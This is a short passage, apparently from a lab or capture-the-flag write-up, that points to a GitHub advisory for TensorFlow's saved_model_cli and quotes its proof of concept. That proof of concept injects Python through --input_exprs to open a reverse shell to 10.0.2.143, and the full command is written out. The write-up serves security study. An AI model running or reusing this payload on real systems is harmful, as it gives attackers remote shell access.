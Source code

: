 ![](/img/image-20230224095418749.png)

The top result is [this
advisory](https://github.com/advisories/GHSA-75c9-jrh4-79mc), which
contains a POC for a reverse shell:



    saved_model_cli run --input_exprs 'hello=exec("""\nimport socket\nimport
    subprocess\ns=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\ns.connect(("10.0.2.143",33419))\nsubprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())""")'
    --dir ./ --tag_set serve --signature_def serving_default


